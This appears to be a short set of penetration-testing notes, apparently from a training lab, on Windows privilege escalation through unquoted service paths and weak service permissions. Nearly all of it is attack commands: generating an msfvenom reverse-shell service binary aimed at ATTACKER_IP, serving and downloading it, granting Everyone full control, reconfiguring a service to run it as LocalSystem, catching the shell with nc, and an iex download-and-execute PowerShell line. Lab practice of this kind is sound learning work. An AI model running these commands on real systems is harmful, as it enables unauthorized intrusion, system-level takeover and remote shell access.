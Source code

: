 ### Unquoted Service Paths

With no quotes, it will resolve like this

`C:\\MyPrograms\\Disk Sorter.exe` -> `C:\\MyPrograms\\Disk.exe`

```bash
sc qc "disk sorter enterprise"
icacls c:\MyPrograms

msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=1111 -f exe-service -o shell-svc.exe
python3 -m http.server 80

rlwrap -r -f . nc -nlvp 1111

C:\> wget http://ATTACKER_IP/shell-svc.exe -O C:\MyPrograms\Disk.exe
C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F

C:\> sc stop "disk sorter enterprise"
C:\> sc start "disk sorter enterprise"
```

### Insecure Service Permissions

Can modify service settings

```bash
sc.exe query

# Check service perms
C:\tools\AccessChk> accesschk64.exe -qlc thmservice

# Prepare revshell
msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=1111 -f exe-service -o shell-svc.exe
python3 -m http.server 80

C:\> wget http://ATTACKER_IP/shell-svc.exe -O C:\Programdata\shell.exe

# Remember to grant permissions to Everyone to execute your payload
C:\> icacls C:\Programdata\shell.exe /grant Everyone:F

# Modify config
# setting "obj= LocalSystem" will make the service run as System!
C:\> sc config THMService binPath= "C:\Programdata\shell.exe" obj= LocalSystem

rlwrap -r -f . nc -nlvp 1111

C:\> sc stop THMService
C:\> sc start THMService
```

**PrivescCheck** result

```bash
iex (new-object net.webclient).downloadstring("http://10.11.19.145/PrivescCheck.ps1"); Invoke-PrivescCheck
```

